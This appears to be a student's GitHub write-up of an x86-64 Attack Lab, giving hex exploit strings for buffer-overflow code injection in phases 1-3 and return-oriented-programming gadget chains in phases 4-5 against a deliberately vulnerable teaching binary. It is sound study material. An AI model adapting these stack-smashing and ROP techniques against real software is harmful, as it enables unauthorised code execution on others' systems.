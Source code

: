 # Attack Lab
This is an x86-64 attack lab for self-study students.

I also document what I had to do to solve this lab.

## Tools
- GDB
- objdump
- GCC

## Phase 1
This is a simple buffer overflow exploit. You can see the dump of the ctarget binary [here](./dump_ctarget.txt). We need to exploit the vulnerability in [getbuf](./dump_ctarget.txt#L777). The first instruction is the key here. `sub $0x28,%rsp` means we will need to provide 40 bytes before we can modify the return address located in the stack. In the 40th byte, we will give the address of the function [touch1](./dump_ctarget.txt#L787) in little endian format (`c0 17 40 00 00 00 00 00`). Hence, we get the following answer:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

## Phase 2
Similar to phase 1 except we need to add the instruction to store our cookie in register `%rdi`. We need to execute few instructions before we transfer control to touch2. For this, we will need the 40-47 bytes to contain the address pointing back into the stack that stores the *buffer* (0-39 bytes from getbuf). The buffer will be modified in such a way that it will update the value of register `%rdi` (the first argument to the function), and then hand over the control to touch2. To get to the function touch2, we will use the `retq` instruction. Recall that `retq` pops the value from the stack and into the register `%rip` (register which holds the memory address to the next instruction to execute). This means we will have to push the address of touch2 into our stack. This push will modify the return address located in our stack (bytes 40-47), which will allow our exploit to safely transfer the control. The instructions we will execute will look like this:
```asm
0:	68 ec 17 40 00       	pushq  $0x4017ec           /* Push address of touch2 to stack  */
5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi    /* Move cookie to register %rdi */
c:	c3                   	retq   
d:	90                   	nop
e:	90                   	nop
f:	90                   	nop
```

Our answer will then, look like this:
```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 90 90 90
ec 17 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

## Phase 3
This one is also pretty simple. We need to call touch3 and store the address of our cookie string in register `%rdi`. The challenge we face are the various instructions that will overwrite our stack. Hence, we need to store the string representation of our cookie on an address which will not get overwritten, which is exactly before the stack address storing the address of touch3. Notice how the `pushq` instruction we use in our execution code pushes data on address `0x5561dca0`. This means, all the future pushes to the stack will be on addresses starting from `0x5561dca0` and onwards. Therefore, we will store our string in the stack on address `0x5561dca8`. Our execution code will look like this:
```asm
0:	68 fa 18 40 00       	pushq  $0x4018fa
5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
c:	c3                   	retq
```

Solution:
```
68 fa 18 40 00 48 c7 c7
a8 dc 61 55 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 /* String representation of our cookie */
```

## Phase 4
This is a very easy phase. We just need to find byte sequences in the gadget farm provided to us. We may not be able to make the target execute our code, but we can still modify the stack and add our data to it. Firstly, we will still overflow our buffer of 40 bytes, and overwrite the return address. Secondly, we need to fill our stack with addresses and data that will make the program execute the exploit similar to phase 2. The hints and constraints in the lab's reading helped me narrow down on what byte sequences I am looking for.

The `popq` instruction is very useful to us here. It will pop the value from the stack and into the register of our choosing. This means, we can store our cookie in the stack and pop it to a register.

(Note that the text for phase 4 below are made with reference to the [disassembly of rtarget binary file](./dump_rtarget.txt))

I wasn't able to find the byte `5f` (pop stack data to register `%rdi`) in the gadget farm, so I settled with the byte `58` (pop stack data to register `%rax`). Luckily, I was able to find the byte sequence for the instruction `movq %rax,%rdi` in the gadget farm. Otherwise, I would have had to look for an alternative to `58`.

With this information, we can create our solution string:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction popq %rax */
fa 97 b9 59 00 00 00 00 /* Our cookie */
c5 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction movq %rax,%rdi */
ec 17 40 00 00 00 00 00 /* Address of touch2 */
```

## Phase 5
Pretty simple but long phase. We are again going to overflow our buffer using 40 bytes of useless data. After that, we only need to find the bytes sequences of the instructions we need.

We will again store the string representation of our cookie at the stack address just before the address storing the pointer to touch3 (Remember, everything after that is going to be overwritten). Now the challenge is how to get this address and store it in register `%rdi`. We also cannot determine what the stack position is going to be when the program is run, due to randomization.

The key here is the function `add_xy` in the gadget farm. This function adds the two arguments passed to it and returns the value. The two arguments are represented by the registers `%rdi` (first argument) and `%rsi` (second argument). The register `%rax` will be populated with the result of the addition. This means, we will need to store the value of `%rsp` in one of the two argument registers and the value we need to add (to get the stack address where our string cookie is stored) on the other. We will then move the result into `%rdi`. We will also store our adding value in the stack and pop it into a register.

I was going through the byte sequences in the gadge farm and came to the conclusion that we are going to need 8 gadgets to complete this (as the hint in the reading suggested). There is no direct way of moving the value of `%rsp` to either `%rdi` or `%rsi`, nor is there a byte sequence to pop our value from the stack to `%rdi` or `%rsi`.
The only pop instruction I could find was `popq %rax`, hence, I will use this. Upon inspection, we also won't be able to find the instruction `movq %rax,%rsi`, but we do have `movq %rax,%rdi`. However, we can find a long way of moving the value from `%eax` to `%esi`, using the following sequences of instructions:
```
89 c2 /* movl %eax,%edx */
89 d1 /* movl %edx,%ecx */
89 ce /* movl %ecx,%eci */
```
Since these are instructions on the lower 4 bytes, these will result in the upper 4 bytes of a register to be zeroed. Therefore, we can only store our adding value to `%rsi`.

We will use the following sequences of instructions to move `%rsp` to `%rdi`:
```
48 89 e0 /* movq %rsp,%rax */
48 89 c7 /* movq %rax,%rdi */
```

To calculate the value we are going to add to `%rsp`, to get the address pointing to our string cookie, we will look at where our address to the instruction `movq %rsp,%rax` is located in the stack. For my solution, it was located 32 (0x20) bytes away. Hence, the solution:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction popq %rax */
20 00 00 00 00 00 00 00 /* Hex number 0x20 */
dd 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction movl %eax,%edx */
34 1a 40 00 00 00 00 00 /* Address of byte sequence for the instruction movl %edx,%ecx */
13 1a 40 00 00 00 00 00 /* Address of byte sequence for the instruction movl %ecx,%esi */
06 1a 40 00 00 00 00 00 /* Address of byte sequence for the instruction movq %rsp,%rax */
c5 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction movq %rax,%rdi */
d6 19 40 00 00 00 00 00 /* Address of add_xy */
c5 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction movq %rax,%rdi */
fa 18 40 00 00 00 00 00 /* Address of touch3 */
35 39 62 39 39 37 66 61 /* String representation of our cookie */
```

